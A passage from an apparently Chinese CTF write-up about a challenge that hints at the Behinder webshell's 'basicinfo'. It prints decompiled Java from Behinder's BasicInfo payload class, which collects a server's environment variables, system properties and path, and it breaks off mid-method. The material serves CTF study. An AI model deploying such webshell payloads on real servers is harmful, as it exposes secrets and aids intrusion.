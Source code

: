 看了一下各种writeup，才看到好像题目的环境是不出网，过滤了内存马和命令执行，还给了个提示：冰蝎basicinfo。

这个`basicinfo`是啥，咱也不知道，咱也不敢问，把冰蝎的那个jar包解压缩然后拿IDEA打开，查找一下`basicinfo`，找到了`net/rebeyond/behinder/payload/java/BasicInfo.class`：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package net.rebeyond.behinder.payload.java;

import java.io.File;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Iterator;
import java.util.Map;
import java.util.Properties;
import java.util.Set;
import java.util.Map.Entry;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

public class BasicInfo {
    public static String whatever;
    private Object Request;
    private Object Response;
    private Object Session;

    public BasicInfo() {
    }

    public boolean equals(Object obj) {
        String result = "";
        boolean var22 = false;

        Object so;
        Method write;
        label132: {
            try {
                var22 = true;
                this.fillContext(obj);
                StringBuilder basicInfo = new StringBuilder("<br/><font size=2 color=red>环境变量:</font><br/>");
                Map<String, String> env = System.getenv();
                Iterator var5 = env.keySet().iterator();

                while(var5.hasNext()) {
                    String name = (String)var5.next();
                    basicInfo.append(name + "=" + (String)env.get(name) + "<br/>");
                }

                basicInfo.append("<br/><font size=2 color=red>JRE系统属性:</font><br/>");
                Properties props = System.getProperties();
                Set<Entry<Object, Object>> entrySet = props.entrySet();
                Iterator var7 = entrySet.iterator();

                while(var7.hasNext()) {
                    Entry<Object, Object> entry = (Entry)var7.next();
                    basicInfo.append(entry.getKey() + " = " + entry.getValue() + "<br/>");
                }

                String currentPath = (new File("")).getAbsolutePath();
                String driveList = "";
```